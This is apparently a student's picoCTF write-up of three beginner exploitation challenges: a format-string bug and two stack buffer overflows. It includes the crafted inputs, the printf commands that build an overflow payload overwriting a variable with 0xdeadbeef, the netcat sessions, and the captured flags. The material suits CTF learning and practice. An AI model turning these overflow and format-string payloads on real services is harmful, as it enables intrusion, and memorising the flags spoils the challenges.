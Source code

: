 # 1. Format string 0
> Using knowledge of format strings to give the correct commands to netcat connection to get the flag.
## Solution:
- Through the description and hint provided, the correct command revolved around format specifiers.
- Used the webshell (terminal) given in the site and connected to the address given.
- The output started with an interface where we had to choose 1 correct option out of the three.
- Since, specifiers start with % sign, I tried the options with % first and got the flag upon the correct command.
- Also, the source code shows %s highlighted in the option strings, indicating that it is the right option.
```
vshhh-picoctf@webshell:~$ nc mimas.picoctf.net 51345
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```
## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```
## Concepts Learnt:
- Format specifiers of strings in c programming- %s
- %114d is a specifier for signed decimal with atleast 114 characters.
- %to prints argument in octal numbers.
## Notes: 
- I saw the % sign in pe%to option and thought that it might be the correct answer.
- But that printed the octal value Pe20021560_Portobello instead.
- This is where I learned that %to converts to octal numbers.
- Then I followed the %s pattern in cheesesteak option to get the flag.
## Resources:
- https://www.geeksforgeeks.org/c/format-specifiers-in-c/

# 2. Buffer overflow 0
> Overflow the correct buffer in nc saturn.picoctf.net 60353 using the program and source code available.
## Solution:
- Running the netcat, we see there is an input needed.
- Looking at the souce code, we can see that the flag can be triggered through segmentation fault due to sigsegv_handler function.
- Also the input buffer has maximum size of 16 bytes.
- Overflowing the input with more than 16 bytes, we can create a segmentation fault and get the flag.
```
vshhh-picoctf@webshell:~$ nc saturn.picoctf.net 60353
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
## Concepts Learnt:
- The sigsegv_handler function is a signal handler designed to handle segmentation fault signals. It prints the value of the global variable flag to standard output, flushes the output buffer, and then terminates the program with an exit code of 1.
- Buffer overflow occurs when software writing data to a buffer overflows the buffer’s capacity, resulting in adjacent memory locations being overwritten.
## Notes:
- I tried entering different characters instead of one, but that exited the program. This is because mixed values can cause less predictable behaviour.
- Also, the characters entered should be more than 16 but not few more than it, due to few more bytes of compiler padding and more for saved addresses and pointers.
- So, spammed As atleast 28 times might work.
## Resources:
- https://www.cloudflare.com/learning/security/threats/buffer-overflow/

# 3. Clutter overflow
> Find out what will trigger the code to give the flag.
## Solution:
- Seeing chall.c file with gets() along with challenge name, we can see that we have to overflow the clutter with right amount of characters to get the flag.
- Size given is 0x100 which in decimal is 256 and 8 bytes of little-endian value 0xdeadbeef  which is required to get the flag and additional 8 byte padding to overwrite the long variable. This gives total 264 bytes or characters to overflow.
- Printing first cammand- 'A%.0s' {1..264} > payload.bin which prints only A character 264 times (not the arguments) and added in a payload.bin file
- Next- append the hex value of 0xdeadbeef (8 bytes) to payload.bin
- Then append '\n' (new line) to end the script.
- Cat the bin file and redirect the output to netcat connection. This gave the flag.
```
vaish@DESKTOP-59LUGSG:/mnt/c/Users/Vaishnavi/Downloads$ printf 'A%.0s' {1..264} > payload.bin
vaish@DESKTOP-59LUGSG:/mnt/c/Users/Vaishnavi/Downloads$ printf '\xef\xbe\xad\xde\x00\x00\x00\x00' >> payload.bin
vaish@DESKTOP-59LUGSG:/mnt/c/Users/Vaishnavi/Downloads$ printf '\n' >> payload.bin
vaish@DESKTOP-59LUGSG:/mnt/c/Users/Vaishnavi/Downloads$ cat payload.bin | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Flag:
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Concepts Learnt:
- gets() is not secure enough therefore can take overflow of characters.
- %.0s is a specifier that only prints the string and not any other argument.
- A payload file can be created to solve such challenges where the script overflows the netcat and gives the flag.
## Notes:
- At first I thought of adding only 256 bytes and 8 for padding.
- Upon inspecting the code even further I realised that the code also has to match 0xdeadbeef. So added its hex form.
## Resources:
- https://owasp.org/www-community/attacks/Buffer_overflow_attack
